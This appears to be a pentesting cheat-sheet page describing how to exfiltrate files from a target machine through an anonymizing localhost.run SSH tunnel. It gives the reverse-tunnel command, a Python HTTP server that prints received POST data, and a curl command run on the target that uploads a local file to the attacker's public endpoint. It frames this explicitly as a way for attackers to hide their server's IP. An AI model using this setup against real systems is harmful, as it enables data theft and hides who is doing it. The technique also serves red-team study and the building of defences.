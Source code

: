 # Send Data via Localhost.run

## 1. Start SSH Port Forwarding

In attack machine, run the following command:

```sh
# Optional: If you have not already created SSH keys.
ssh-keygen

ssh -R 80:localhost:8080 nokey@localhost.run
```

After that, the endpoint URL (`https://xxxxxxxxxx.lhr.life`) is displayed in the terminal.

## 2. Start HTTP Server

We need to prepare a custom HTTP server because a default server does not allow the POST method. So create a new Python file:

```py
# server.py
from http.server import HTTPServer
from http.server import BaseHTTPRequestHandler


class CustomHTTPRequestHandler(BaseHTTPRequestHandler):

    def do_GET(self):
        self.send_response(200)
        self.send_header('Content-type', "text/html")
        self.end_headers()
        html_context = '<html lang="ja">' \
                       '<meta charset="UTF-8"><form method="POST" action="/">' \
                       '<input type="hidden" name="word" value="abcde">' \
                       '<input type="submit" value="送信">' \
                       '</form>' \
                       '</html>'
        self.wfile.write(html_context.encode())

    def do_POST(self):
        self.send_response(200)
        self.send_header('Content-Type', 'text/plain; charset=utf-8')
        self.end_headers()
        print(self.rfile.read(int(self.headers['content-length'])).decode('utf-8'))
        html_context = "送信完了"
        self.wfile.write(html_context.encode())


server_address = ('localhost', 8080)
httpd = HTTPServer(server_address, CustomHTTPRequestHandler)
httpd.serve_forever()
```

Now start the server:

```sh
python3 server.py
```

The `http://localhost:8080` opens for receiving requests.


## 2. Send Data to the Endpoint

In target machine, run the following command to send data:

```powershell
curl -F "@=./data.txt" https://xxxxxxxxxx.lhr.life
```

By this, we (attackers) can anonymize our actual server IP addresses.